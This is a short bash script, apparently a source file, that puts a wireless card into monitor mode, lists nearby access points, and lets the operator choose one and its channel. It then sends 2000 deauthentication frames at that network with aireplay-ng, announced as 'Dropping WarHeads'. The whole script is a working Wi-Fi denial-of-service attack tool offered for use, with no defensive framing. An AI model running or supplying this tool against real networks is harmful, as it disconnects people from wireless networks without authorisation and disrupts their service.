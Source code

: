 #!/bin/bash

ifconfig wlan1 up
src_mac=`ifconfig wlan1 | awk '/ether/ {print $2}'`
ifconfig wlan1 down
iwconfig wlan1 mode monitor
airodump-ng wlan1 -w tempdump
trap ctrl_c INT
clear
echo -e "[-][-][-] Select Your Target or Type 'q' to Holster::\n"
cat tempdump-01.csv | awk -F "," '{ print $1$4$14 }' | sed -n '/BSSID/!p' | sed -n '/Station/q;p' | sed '/^\s*$/d' | nl;echo ''
read -e -p ">>> " -n3 tempmacid
if [[ $tempmacid == 'q' ]]; then
	ifconfig wlan1 down
	iwconfig wlan1 mode managed
	rm tempdump*
	clear
	exit
else
	mac_id=`cat tempdump-01.csv | awk -F "," '{ print $1$14 }' | sed -n '/BSSID/!p' | sed -n '/Station/q;p' | sed '/^\s*$/d' | awk 'NR=="'$tempmacid'"{ print $1 }'`
	echo -e ""
	rm tempdump*
	read -e -p "Enter Channel>>> " -n3 chnl; echo -e ''
	if [[ $chnl == 'q' ]]; then
	        ifconfig wlan1 down
	        iwconfig wlan1 mode managed
	        clear
		exit
	else
		ifconfig wlan1 down
		iwconfig wlan1 mode monitor
		ifconfig wlan1 up
		iwconfig wlan1 channel $chnl
		echo -e "Dropping WarHeads...\n"
		aireplay-ng --deauth 2000 -a $mac_id -h $src_mac wlan1 --ignore-negative-one
		trap ctrl_c INT
		ifconfig wlan1 down
		iwconfig wlan1 mode managed
		ifconfig wlan1 up
		clear
	fi;
fi;
